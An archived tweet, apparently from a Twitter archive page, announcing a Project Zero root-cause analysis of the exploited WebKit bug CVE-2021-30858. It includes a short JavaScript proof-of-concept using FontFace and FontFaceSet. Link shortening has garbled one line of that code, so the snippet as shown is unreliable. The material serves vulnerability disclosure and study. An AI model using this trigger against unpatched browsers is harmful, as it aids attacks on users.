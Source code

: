 <td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1448519811886055426+pu+img+zL-AAbSEyxNNnnv5.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1448519811886055426/pu/img/zL-AAbSEyxNNnnv5.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1448303942979313674 _at 2021-10-13 15:05:42_**
<blockquote>
🌟 RCA for WebKit itw 0-day CVE-2021-30858 🌟
#itw0days 
I do love me a tweetable poc:

var fontFace1 = new FontFace("font1", "", {});
var fontFaceSet = new FontFaceSet([fontFace1]);
https://t.co/diiDQMUoSM = "font2";

https://t.co/r1mHx3kYrU
</blockquote>

* http://fontFace1.family
* https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html
